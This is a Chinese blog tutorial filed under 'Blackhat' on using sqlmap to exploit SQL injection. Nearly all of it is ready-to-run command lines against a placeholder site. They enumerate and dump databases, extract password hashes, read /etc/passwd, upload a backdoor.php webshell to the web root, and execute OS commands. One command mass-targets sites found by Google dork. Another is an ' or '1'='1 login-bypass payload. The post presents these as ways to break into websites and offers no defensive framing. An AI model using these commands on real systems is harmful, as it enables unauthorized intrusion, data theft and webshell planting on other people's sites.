```yaml
---
title: sql注入工具sqlmap的使用详解
name: how-to-use-sqlmap
date: 2016-5-19
tags: [sqlmap,sql注入]
categories: [Blackhat]
---
```


* 目录
{:toc}

## 1. 背景

**[sqlmap](https://github.com/sqlmapproject/sqlmap)**是python语言实现的sql注入工具，它使用简单，功能强大。不仅仅能简单的获取目标用户数据库信息，也可根据不同操作系统渗透上传webshell。sqlmap已经是metasploit中标准的sql注入工具。

sql注入问题是老深长谈的安全问题了，直至今日仍居**[oswap10](//www.owasp.org.cn/owasp-project/download/OWASPTop102013V1.2.pdf)**大安全问题之首。sql的注入大多存在于php和asp的web应用中，java由于有preparement代替statement，所以现在已经很少出现了。时至今日，在google中按**google dock**的条件搜索，仍不乏很多站点的sql注入漏洞，可以轻而易举的使用sql注入的工具攻破站点。

## 2. 前提

找到目标注入点，使用"**单引号**"测试URL地址是否存在注入漏洞，判别标准看结果页面是否存在异常、错误或者空白，这些反映都能直接体现出注入点是否可用。

**源地址URL**：//www.site.com/section.php?id=51
**注入点URL**：//www.site.com/section.php?id=51'

## 3. 基本使用

下面方法中能正确获取目标系统数据库所有信息、包含操作系统识别、服务识别以及数据库表中的数据。获取站点登陆用户名及其密码，进行后台入口扫描登陆等操作。

```shell
# 检查参数是否可以注入，识别操作系统及数据库版本
sqlmap -u //www.site.com/section.php?id=51

# 识别指纹信息
sqlmap -u //www.site.com/section.php?id=51 -b

# 枚举数据库
sqlmap -u //www.sitemap.com/section.php?id=51 --dbs

# 枚举指定数据库中表
sqlmap -u //www.site.com/section.php?id=51 --tables -D [数据库名称]

# 枚举表中的列
sqlmap -u //www.site.com/section.php?id=51 --columns -D [数据库名称] -T [表名]

# 获取表中数据
sqlmap -u //www.site.com/section.php?id=51 --dump -D [数据库名称] -T [表名]
# 指定列名枚举表中数据
sqlmap.py -u //www.site.com/section.php?id=51 --dump -D [数据库名称] -T [表名] -C [列名1,列名2,列名3]

# 运行sql
sqlmap -u //www.site.com/section.php?id=51 --sql-query="select now();"

# 枚举用户列表和角色
sqlmap -u //www.site.com/section.php?id=51 --users --passwords --privileges --roles --threads=10
```

## 4. 高级使用

读取系统服务器本地文件、执行系统服务器shell命令、上传自己的webshell，根据不同操作系统会有不同的命令使用方法。

```shell
# 判别当前数据库用户是否具有dba权限
sqlmap -u //www.site.com/section.php?id=51 --current-user --is-dba --current-db --hostname --threads=10

# 若是dba，开启上传漏洞，可以上传自己的上传webshell
sqlmap -u //www.site.com/section.php?id=51 --os-cmd -v 1

# 读取用户密码进行hash破解
sqlmap -u //www.site.com/section.php?id=51 --password -v 1

# 读取系统文件
sqlmap -u //www.site.com/section.php?id=51 --file-read=/etc/passwd --threads=10

# 上传文件
sqlmap -u //www.site.com/section.php?id=51 --file-write /root/backdoor.php \
    --file-dest=/var/www/html/backdoor.php

# 执行系统命令
sqlmap -u //www.site.com/section.php?id=51 --os-cmd id -v 1
```

## 5. 撒网捕鱼

这属于撒网捕鱼，通过搜索引擎批量获取存在sql注入的站点进行渗透操作

```shell
sqlmap -g "inurl:\"php?id=\"" --random-agent -f --batch --answer="extending=N,follow=N,keep=N,exploit=n"
```

## 6. 注入问题

**出现”testing connection to the target url”的错误？**

可以尝试随机使用user-agent的方式访问，–random-agent，模拟chrome或者firefox的请求方式。

**碰到rest请求的sql注入应该怎么做？**

如：//www.site.com/class_name/method/43/80，此时sqlmap不知道注入点在哪里，你可以使用＊号指定注入点，如：//www.site.com/class_name/method/43*/80

**post注入点使用–data操作？**

对于登陆类型的post表单，sqlmap的语法会有所不同，//www.site.com/form.php，//www.site.com/form_submit.php
注入点是//www.site.com/form_submit.php，另外需要找到表单中的参数名称，可以使用浏览器的dom查看。比如：参数名称是username
sqlmap -u //www.site.com/form_submit.php –data=”username=avc”
data选项告诉sqlmap是一个post请求，现在如果你足够幸运，sqlmap会很快注入成功，但大多数情况并不会这么顺利。
如果第一个sqlmap报告不可注入，可以尝试使用魔数作为参数的值，如
sqlmap -u //www.site.com/form_submit.php –data="username=' or '1'='1"

**之前渗透的结果和注入点如何找回？**

操作过注入点及dump出的数据结果将会保存在用户目录下的".sqlmap/output"目录中。

